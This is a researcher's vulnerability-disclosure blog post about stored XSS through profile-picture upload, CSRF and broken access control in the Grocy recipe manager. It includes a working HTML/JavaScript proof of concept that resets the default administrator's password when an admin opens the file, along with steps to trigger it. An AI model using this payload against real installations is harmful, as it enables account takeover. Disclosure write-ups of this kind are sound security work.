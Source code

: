 ```yaml
---
title: All Your Recipe Are Belong to Us (Part 1/3) - Stored XSS, CSRF and Broken Access Control Vulnerabilities in Grocy
date: 2024-11-27T04:00:56+01:00
toc: false
images: 
tags:
  - CVE
  - Web
  - English
---
```


I used 4 hours of my free time (not counting the Responsible Disclosure and Blog Posts...) to "speed pentest" the three biggest and most popular (measured by Github stars) open-source recipe managers. This included [Grocy](https://github.com/grocy/grocy), which had >6900 stars at the time of testing. Here I found 3 vulnerabilities. The first one is an _Unrestricted File Upload_, through which it was possible to upload any files. This included HTML and SVG files to achieve _Stored XSS_. The second one is a _CSRF_ vulnerability, because the session token has no security flags set, as well as no CSRF countermeasure is implemented. The last one is "one" _Broken Access Control_ vulnerability: For most functions, only the link in the sidebar is disabled for unauthorized users, but a direct call to the URL or API endpoint allows access to data for which you have no permissions.

## Overview of the Vulnerabilities
| Name                                                                               | CVSS Score      |
| ---------------------------------------------------------------------------------- | ------ |
| Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS | [8.7 High](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N) |
| CSRF: Change the administrator's password                                          | [6.8 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N) |
| BAC: Users can directly call functions, which they are not authorized for          | [6.5 Medium](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) |

## Vulnerabilities in Detail

### Unrestricted File Upload: Users can upload HTML or SVG files to exploit Stored XSS (8.7 High)
Users have by default the permission to edit their own profile. There they can upload a profile picture. However it is not validated whether the uploaded file is a benign picture or not. Thus, it is possible to upload malicious HTML or SVG files. As a POC I've created the following HTML file:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update User</title>
</head>
<body>
    <h1 id="status">Loading...</h1>
    <script>
        // Function to perform the PUT request
        async function updateUser() {
            const url = '/api/users/1'; // Target endpoint
            const payload = {
                username: "admin",
                first_name: "",
                last_name: "",
                change_password: "1",
                password: "NewPassword123",
                password_confirm: "NewPassword123"
            };

            try {
                const response = await fetch(url, {
                    method: 'PUT',
                    credentials: 'include', // Include cookies in the request
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(payload) // Convert payload to JSON string
                });

                if (response.ok) {
                    document.getElementById('status').textContent = 'User updated successfully!';
                } else {
                    const errorText = await response.text();
                    document.getElementById('status').textContent = 'Failed to update user: ' + errorText;
                }
            } catch (error) {
                document.getElementById('status').textContent = 'Error: ' + error.message;
            }
        }

        // Execute the request when the page loads
        (async function execute() {
            await updateUser();
        })();
    </script>
</body>
</html>
```
When the file is viewed by an administrator, the JavaScript will issue a request that changes the password of the user with id 1 (by default an administrator) to `NewPassword123`.
The following screenshot shows the upload function:

![Grocy1](/media/2024/11/grocy1.png)

After saving the changes, we can see the URL of the uploaded file

![Grocy2](/media/2024/11/grocy2.png)

We need to remove the appended `?force_serve_as=picture&best_fit_width=32&best_fit_height=32` in order for the file to be executed

![Grocy3](/media/2024/11/grocy3.png)

As we do not have administrative rights (YET ;)) we receive an error message. However, if an administrator visits the url, the request is successful

![Grocy4](/media/2024/11/grocy4.png)

Now we can login as the administrator `admin` with the newly set password `NewPassword123`

![Grocy5](/media/2024/11/grocy5.png)

### CSRF: Change the administrator's password (6.8 Medium)
The session cookie has no security flags (escpecially SameSite) set

![Grocy6](/media/2024/11/grocy6.png)

Further no CSRF countermeasures (such as CSRF-Tokens) are implemented at all, leaving all functions vulnerable to CSRF. E.g. see the following request to change the administrator's password

![Grocy7](/media/2024/11/grocy7.png)

The same POC as the previous vulnerability can be used, but instead of the relative URL a absolute URL needs to be specified. If an adminstrative user visits this POC on the attacker's website, the password of the default administrative user will be changed.

### BAC: Users can directly call functions, which they are not authorized for (6.5 Medium)

As a starting point, we create a user `user` with no permissions

![Grocy8](/media/2024/11/grocy8.png)

The user is not authorized to access most of the functions of the webapp. The links to those functions are deactivated on the sidebar. However the user is still able to access those functions by requesting their URL directly. e.g. we can request /calendar in order to view the calendar and its entries.

![Grocy9](/media/2024/11/grocy9.png)

A further example are the recipes

![Grocy10](/media/2024/11/grocy9.png)

This affetcs ALL functions except the user management.

However, it is only possible to view data and not to modify it.

## Timeline
| Date | Event |
| - | - |
| 2024-11-26 | Discovered the vulnerabilities |
| 2024-11-26 | Reported the vulnerabilites |
| 2024-11-26 | Maintainer replied unpolitely that they do *NOT* wanna be bothered with "irrelevant" security issues |
| 2024-11-27 | CVEs requested |